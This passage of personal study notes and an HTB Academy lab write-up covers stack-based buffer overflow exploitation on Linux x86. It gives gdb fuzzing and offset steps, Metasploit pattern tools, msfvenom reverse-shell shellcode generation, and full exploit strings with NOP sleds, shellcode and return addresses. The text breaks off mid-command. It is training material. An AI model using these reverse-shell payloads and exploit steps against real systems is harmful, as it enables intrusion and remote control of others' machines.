





# Buffer Overflow - Stack based - Linux x86

## Methodology

### Take control of EIP

#### Fuzzing

* We will use Gnu Debbugger\
  `gdb -q prog-name`
* We set gdb to use intel\
  `(gdb) set disassembly-flavor intel`
* We can fuzz by printing the same char 1200 times\
  `run $(python -c "print '\x55' * 1200")` `info registers`

#### Determining offset

* Metasploit on kali\
  `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200`
* We put the pattern in gdb `(gdb) run $(python -c "print 'STRING-OF-PATTERN'")` `info registers eip`
* We get a new memory address
* We use msf pattern to get the offset `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569` `run $(python -c "print '\x55' * OFFSET-VALUE + '\x66' * 4")`
* Example: `run $(python -c "print '\x55' * 1036 + '\x66' * 4")` We should see that EIP has been rewritten with \x66

### Determine length of shellcode

* Generate shellcode with metasploit: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=31337 --platform linux --arch x86 --format c`
*   With this we will get the Payload size

    1. We need a total of 1040 bytes to get to the EIP.
    2. Here, we can use an additional 100 bytes of NOPs
    3. 150 bytes for our shellcode. Example:

    ```
    Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
        NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
         EIP = "\x66" * 4'
    ```

    `run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')`

### Identification of bad chars

* List of bad chars: `\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`
*   This list is 256 bytes long

    ```
    Buffer = "\x55" * (1040 - 256 - 4) = 780
    CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
      EIP = "\x66" * 4
    ```
* On GDB: `disassemble main`
* We set a break point to the vuln function `break funcname`
* We can now try our list of chars: `(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "STRING-OF-BAD-CHARS" + "\x66" * 4')`
* We look at the stack: `x/2000xb $esp+500`
* We can see where our \x55 started and at the end of all the \x55 we have our bad chars\
  We can see if a char is missing or if there is something strange so we move the char and try again we have to calc our buffer again 1 char is 1 byte so we can remove 1 byte from 256
* Example bad chars: \x00 \x09 \x0a \x20

### Generating shellcode

`msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>`

*   We have to adjust the shellcode to be only one string

    ```
    ┌──(kali㉿kali)-[~]
    └─$ cat shellcode                                                                                                                                            
    unsigned char buf[] =
    "\xb8\x34\x84\x16\xa2\xdd\xc2\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
    "\x12\x83\xc3\x04\x31\x43\x0e\x03\x77\x8a\xf4\x57\x46\x49\x0f"
    "\x74\xfb\x2e\xa3\x11\xf9\x39\xa2\x56\x9b\xf4\xa5\x04\x3a\xb7"
    "\x99\xe7\x3c\xfe\x9c\x0e\x54\x7e\x5f\xf1\xa5\xe8\x5d\xf1\xdf"
    "\x81\xe8\x10\xaf\x34\xbb\x83\x9c\x0b\x38\xad\xc3\xa1\xbf\xff"
    "\x6b\x54\xef\x8c\x03\xc0\xc0\x5d\xb1\x79\x96\x41\x67\x29\x21"
    "\x64\x37\xc6\xfc\xe7";
    ```

    Becomes: `"\xb8\x34\x84\x16\xa2\xdd\xc2\xd9\x74\x24\xf4\x5b\x33\xc9\xb1\x12\x83\xc3\x04\x31\x43\x0e\x03\x77\x8a\xf4\x57\x46\x49\x0f\x74\xfb\x2e\xa3\x11\xf9\x39\xa2\x56\x9b\xf4\xa5\x04\x3a\xb7\x99\xe7\x3c\xfe\x9c\x0e\x54\x7e\x5f\xf1\xa5\xe8\x5d\xf1\xdf\x81\xe8\x10\xaf\x34\xbb\x83\x9c\x0b\x38\xad\xc3\xa1\xbf\xff\x6b\x54\xef\x8c\x03\xc0\xc0\x5d\xb1\x79\x96\x41\x67\x29\x21\x64\x37\xc6\xfc\xe7"`\
    Metasploit mentionned that the payload was 95 bytes

    ```
    Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
        NOPs = "\x90" * 124
    Shellcode = "MSF-SHELLCODE"
         EIP = "\x66" * 4'
    ```

    We can now run on gdb: `run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xb8\x34\x84\x16\xa2\xdd\xc2\xd9\x74\x24\xf4\x5b\x33\xc9\xb1\x12\x83\xc3\x04\x31\x43\x0e\x03\x77\x8a\xf4\x57\x46\x49\x0f\x74\xfb\x2e\xa3\x11\xf9\x39\xa2\x56\x9b\xf4\xa5\x04\x3a\xb7\x99\xe7\x3c\xfe\x9c\x0e\x54\x7e\x5f\xf1\xa5\xe8\x5d\xf1\xdf\x81\xe8\x10\xaf\x34\xbb\x83\x9c\x0b\x38\xad\xc3\xa1\xbf\xff\x6b\x54\xef\x8c\x03\xc0\xc0\x5d\xb1\x79\x96\x41\x67\x29\x21\x64\x37\xc6\xfc\xe7" + "\x66" * 4')`\
    Check if first byte of our shellcode match the bytes after NOPS with `x/2000xb $esp+550` We see that after a few nops (x90) we see the first chars of our shellcode.

### Identify a return address

*   `0xffffd734`

    ```
      Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
        NOPs = "\x90" * 124
    Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
         EIP = "\x34\xd7\xff\xff"
    ```

    Our exploit: `"\xda\xc2\xd9\x74\x24\xf4\x5b\x33\xc9\xb1\x12\xb8\x88\x5e\xb1\xe2\x83\xc3\x04\x31\x43\x13\x03\xcb\x4d\x53\x17\xfa\xaa\x64\x3b\xaf\x0f\xd8\xd6\x4d\x19\x3f\x96\x37\xd4\x40\x44\xee\x56\x7f\xa6\x90\xde\xf9\xc1\xf8\xea\xf3\x3f\xb1\x82\x01\x40\x3b\x3a\x8f\xa1\x0b\xda\xdf\x70\x38\x90\xe3\xfb\x5f\x1b\x63\xa9\xf7\xca\x4b\x3d\x6f\x7b\xbb\xee\x0d\x12\x4a\x13\x83\xb7\xc5\x35\x93\x33\x1b\x35”`

    ```
    run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xc2\xd9\x74\x24\xf4\x5b\x33\xc9\xb1\x12\xb8\x88\x5e\xb1\xe2\x83\xc3\x04\x31\x43\x13\x03\xcb\x4d\x53\x17\xfa\xaa\x64\x3b\xaf\x0f\xd8\xd6\x4d\x19\x3f\x96\x37\xd4\x40\x44\xee\x56\x7f\xa6\x90\xde\xf9\xc1\xf8\xea\xf3\x3f\xb1\x82\x01\x40\x3b\x3a\x8f\xa1\x0b\xda\xdf\x70\x38\x90\xe3\xfb\x5f\x1b\x63\xa9\xf7\xca\x4b\x3d\x6f\x7b\xbb\xee\x0d\x12\x4a\x13\x83\xb7\xc5\x35\x93\x33\x1b\x35" + "\x34\xd7\xff\xff"')
    ```

## Write up - Skills Assesment on HTB Academy - STACK-BASED BUFFER OVERFLOWS ON LINUX X86

### Fuzzing

```
gdb -q leave_msg
set disassembly-flavor intel
```

* We have a segfault starting at 2100

```
(gdb) run $(python -c "print '\x55' * 2100")
```

### Determine offset

* Let's use a pattern:
* We generate it on kali:

```
┌──(kali㉿kali)-[~]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9
```

We can send it on gdb:

```
run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9'")
```

* GDB print this:

```
Program received signal SIGSEGV, Segmentation fault.
0x37714336 in ?? ()
(gdb)
```

* Check out EIP

```
(gdb) info registers eip
eip            0x37714336       0x37714336
(gdb)
```

* In kali we can use `pattern_offset` `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37714336`

```
┌──(kali㉿kali)-[~]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37714336
[*] Exact match at offset 2060
```

* Our offset is 2060

```
run $(python -c "print '\x55' * 2060 + '\x66' * 4")
```

* To answer the question `Submit the size of the stack space after overwriting the EIP as the answer. (Format: 0x00000)`
* We need to do a `info proc all` in gdb and we get this 

### Determine length of shellcode

* We check the size of shellcode with msfvenom:\
  `msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=31337 --platform linux --arch x86 --format c`\
  
* Our payload should be 68 bytes
* To reach eip we need the offset size + 4bytes => 2060+4=2064 bytes
* We can then add 100 bytes of NOPs
* We can count 150 of shellcode in case we need a bigger shellcode.
*   We can then try this:

    ```
    run $(python -c 'print "\x55" * (2064 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
    ```
* We still rewrite EIP\
  

### Identification of bad chars

*   We are going to look for bad chars with the 256 bytes list:

    ```
    "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    ```
* We need to send `BUFFER+CHARS+EIP`
*   We can put a break on the vulnerable function `leavemsg` (we can see this with disassemble main)\
    

    ```
    (gdb) run $(python -c 'print "\x55" * (2064 - 256 - 4) +
    "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')
    ```
* We can find our badchars: `x/2000xb $esp+500`
* We can add 0x00 in our bad chars list
* We remove it from the list and substract 1 byte so our code looks like this: `run $(python -c 'print "\x55" * (2064 - 255 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')`
* We then find 0x09
*   We remove it from the list and substract 1 byte so our code looks like this:

    ```
    run $(python -c 'print "\x55" * (2064 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4